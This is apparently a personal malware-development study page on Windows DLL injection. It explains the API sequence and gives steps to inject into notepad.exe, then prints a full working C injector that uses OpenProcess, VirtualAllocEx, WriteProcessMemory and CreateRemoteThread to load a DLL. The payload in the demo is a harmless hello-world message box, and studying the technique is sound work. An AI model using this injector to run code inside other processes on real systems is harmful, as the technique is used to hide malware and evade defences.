 ```yaml
---
description: 06-21-2023
---
```


# 📚 DLL Injection

## What is DLL Injection?

A process injection technique that <mark style="color:yellow;">allows a malicious actor to be able to inject arbitrary code into another process</mark>.&#x20;

The malware <mark style="color:yellow;">writes the path to it's malicious DLL in the virtual address space of a legit process</mark> using [WriteProcessMemory()](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory). This function will write data to an area of memory in a specified process.

It will then <mark style="color:yellow;">ensure the remote process loads it by creating a remote thread in the target process</mark>. This is performed via [CreateRemoteThread()](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread).

## High Level Explanation

Targeted Program.exe (victim) -> [OpenProcess()](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) -> [GetProcAddress()](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress) -> [VirtualAllocEx()](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) -> [WriteProcessMemory()](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) -> [CreateRemoteThread()](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)

1. <mark style="color:green;">Open/Create</mark> a process for injection
2. <mark style="color:green;">Allocate</mark> memory for the process
3. <mark style="color:green;">Write</mark> DLL's path to the region of allocated memory
4. <mark style="color:green;">Call</mark> <mark style="color:yellow;">LoadLibraryA</mark>/<mark style="color:yellow;">W</mark>/<mark style="color:yellow;">CreateRemoteThread()</mark> inside the remote process with the DLL path.

## PoC

{% embed url="https://github.com/0xXyc/maldev/blob/main/winAPI/dll-injection/inject-dll.c" %}

This program requires the usage of a single command line argument that will take an valid PID.&#x20;

Check task manager to target a specific process. This current build works on a Windows 11 machine, targetting a x64 executable, and utilizes a 64 bit DLL as of the time of this writing.

#### Instructions:

1. For example, start notepad
2. Right-click inside of task manager and select "Go to details"
3. Look for the PID of notepad.exe
4. Run the syntax below replacing \<PID> with the PID of notepad.exe

#### Syntax:

```
./inject-dll.exe <PID>
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Notice how the Hello World messagebox appears in the same tab as notepad.exe on your taskbar:

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption><p>Proving our messagebox was successfully injected into notepad.exe</p></figcaption></figure>

inject-dll.c:

```c
#include <stdio.h>
#include <windows.h>

int main(int argc, char *argv[])
{
    HANDLE processHandle;
    HANDLE threadHandle;
    PVOID remoteBuffer;
    LPCSTR dllPath = "C:\\testcode\\hello-world-x64.dll";
    SIZE_T dllPathLength = strlen(dllPath) + 1;
    PTHREAD_START_ROUTINE threatStartRoutineAddress;

    printf("Injecting DLL to PID: %i\n", atoi(argv[1]));

    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, atoi(argv[1]));
    if(!processHandle)
    {
        printf("OpenProcess Failed: %d\n", GetLastError());
        return 0;
    }

    remoteBuffer = VirtualAllocEx(processHandle, NULL, dllPathLength, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    if(!remoteBuffer)
    {
        printf("VirtualAllocEx Failed: %d\n", GetLastError());
        return 0;
    }

    if(!WriteProcessMemory(processHandle, remoteBuffer, dllPath, dllPathLength, NULL))
    {
        printf("WriteProcessMemory Failed: %d\n", GetLastError());
        return 0;
    }

    threatStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryA");
    threadHandle = CreateRemoteThread(processHandle, NULL, 0, threatStartRoutineAddress, remoteBuffer, 0, NULL);
    if(!threadHandle)
    {
        printf("Remote thread failed. %d\n", GetLastError());
        return 0;
    }

    printf("Success\n");

    CloseHandle(threadHandle);
    CloseHandle(processHandle);

    return 0;
}
```

#### DLL:

{% embed url="https://github.com/carterjones/hello-world-dll/releases/tag/v1.0.0" %}

To Do:&#x20;

* I need to learn how to write my own DLL's

